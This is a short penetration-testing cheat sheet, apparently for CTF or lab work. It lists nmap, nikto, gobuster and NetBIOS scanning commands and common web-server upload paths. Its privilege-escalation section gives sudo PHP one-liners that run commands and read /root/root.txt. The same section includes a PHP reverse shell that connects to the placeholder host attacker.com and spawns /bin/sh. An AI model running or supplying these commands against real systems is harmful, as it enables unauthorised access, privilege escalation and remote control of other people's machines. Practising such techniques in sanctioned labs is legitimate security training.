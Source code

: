 # Enumeration 
## Scanning
### All
	nmap -sV <IP>
	nc -vv -n -w1 <IP> 31337
	sudo nmap <IP> -p <PORT> -sV --script vuln 
	sudo nmap <IP> -source-port 53
### Web
	nmap -sV --script=http-enum -oA <IP_HTTPENUM> <IP>
	whatweb <IP>
	nikto -host http://<IP>
	gobuster dir -u http://<IP> --wordlist /usr/share/dirb/wordlists/common.txt

### Windows
	nbtstat -A <IP>
	nbtscan <IP>
# Exploitation
## Web
	Upload Locations
		Apache
		/var/www/html/
		Nginx
		/usr/local/nginx/html/
		IIS
		c:\inetpub\wwwroot\
		XAMPP
		C:\xampp\htdocs\

# Priv Esc
### PHP
	sudo php -r 'echo exec("id");'
	sudo php -r 'echo exec("find /root/*.txt");'
	sudo php -r 'echo exec("cat /root/root.txt");'

	export RHOST=attacker.com
	export RPORT=12345
	sudo php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'

	export CMD="/bin/sh"
	php -r 'system(getenv("CMD"));'

# Post-Exploit 
